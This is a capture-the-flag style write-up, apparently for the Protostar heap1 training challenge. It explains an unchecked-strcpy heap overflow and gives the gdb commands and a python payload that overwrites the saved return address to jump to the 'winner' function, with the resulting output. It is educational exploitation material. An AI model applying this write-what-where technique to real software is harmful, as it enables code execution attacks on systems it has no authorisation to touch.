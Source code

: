 **Heap1**

We need to use a heap overflow to solve this challenge.

strcpy doesn't specify the argument length, so we can copy any size string we want.

After reading on how the heap works\* we know malloc will insert an address into the heap to point to the value of name.
Using the first strcpy we can overwrite i2's name address.
Using the second strcpy we can overwrite the bytes that will be written into said address.

We can use this to write eip's address on the stack using the first strcpy and changing it to winner's address using the second strcpy.


**Winner's Address**

```diff
$ readelf -s heap1 | grep winner
    55: 08048494    37 FUNC    GLOBAL DEFAULT   14 winner
```


**Eip's Address**

```diff
$ gdb heap1
$ b (in main)
$ r a a
$ info frame
```


**The Exploit**

This did not work first hand, I had to subtract 20 off eip's address to get the real location of eip (The stack shifted a few bytes).

```diff
(gdb) r $(python -c "from struct import pack;print 'AAAA'*5 + pack('<I', 0xbffffe20 - 20) + ' ' + pack('<I', 0x08048494)")
Starting program: /opt/protostar/bin/heap1 $(python -c "from struct import pack;print 'AAAA'*5 + pack('<I', 0xbffffe20 - 20) + ' ' + pack('<I', 0x08048494)")
and that's a wrap folks!
and we have a winner @ 1585664176

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
(gdb) 
```


\* Source - https://stackoverflow.com/questions/79923/what-and-where-are-the-stack-and-heap
